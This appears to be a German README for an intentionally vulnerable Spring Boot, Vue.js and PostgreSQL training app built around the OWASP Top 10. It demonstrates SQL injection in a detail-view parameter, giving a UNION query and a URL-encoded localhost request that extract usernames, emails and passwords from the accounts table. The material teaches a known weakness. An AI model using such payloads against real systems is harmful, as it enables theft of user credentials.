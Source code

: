 # Spring Boot + Vuejs + Postgresql Server mit OWASP Top 10 

## A03:2021 – Injection

Detail View Parameter ist angreifbar mit Sql Injection

Normale Query: 

```sql

SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
```

Union Injection: 

```sql
SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
UNION
SELECT 999, 999, '999' const, 999, did, username,email, password  FROM accounts where did = 1;
```

Example (URI encoded): 

http://localhost/detail/1222%20UNION%20SELECT%20999%2C%20999%2C%20'999'%20const%2C%20999%2C%20did%2C%20username%2Cemail%2C%20password%20%20FROM%20accounts%20where%20did%20%3D%201%3B
